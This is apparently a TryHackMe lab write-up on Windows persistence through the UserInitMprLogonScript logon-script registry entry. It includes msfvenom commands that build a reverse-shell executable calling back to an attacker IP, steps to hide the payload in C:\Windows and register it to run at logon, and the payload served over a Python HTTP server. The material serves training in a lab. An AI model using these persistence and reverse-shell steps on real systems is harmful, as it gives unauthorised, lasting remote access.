 	After doing this, sign out of your current session and log in again, and you should receive a shell (it will probably take around 10 seconds).
	THM flagUsing your newly obtained shell, execute C:\flags\flag12.exe to get a flag!

Logon scripts

One of the things userinit.exe does while loading your user profile is to check for an environment variable called UserInitMprLogonScript. We can use this environment variable to assign a logon script to a user that will get run when logging into the machine. The variable isn't set by default, so we can just create it and assign any script we like.

Notice that each user has its own environment variables; therefore, you will need to backdoor each separately.

Let's first create a reverse shell to use for this technique:

```

AttackBox

user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4453 -f exe -o revshell.exe

        


```

	We'll transfer the shell to our victim machine as we did previously. We can then copy the shell to any directory we like. In this case, we will use C:\Windows:

```

Command Prompt

C:\> move revshell.exe C:\Windows

        


```

	To create an environment variable for a user, you can go to its HKCU\Environment in the registry. We will use the UserInitMprLogonScript entry to point to our payload so it gets loaded when the users logs in:

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/9ce41ee1fc282b8dcacd757b23417b12.png)

Notice that this registry key has no equivalent in HKLM, making your backdoor apply to the current user only.

	After doing this, sign out of your current session and log in again, and you should receive a shell (it will probably take around 10 seconds).
	THM flagUsing your newly obtained shell, execute C:\flags\flag13.exe to get a flag!


```
──(kali㉿kali)-[~/payloads]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.11.81.220 LPORT=4450 -f exe -o revshell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: revshell.exe
                                                                                           
┌──(kali㉿kali)-[~/payloads]
└─$ python3 -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
10.10.170.100 - - [11/Sep/2022 17:24:00] "GET /revshell.exe HTTP/1.1" 200 -
```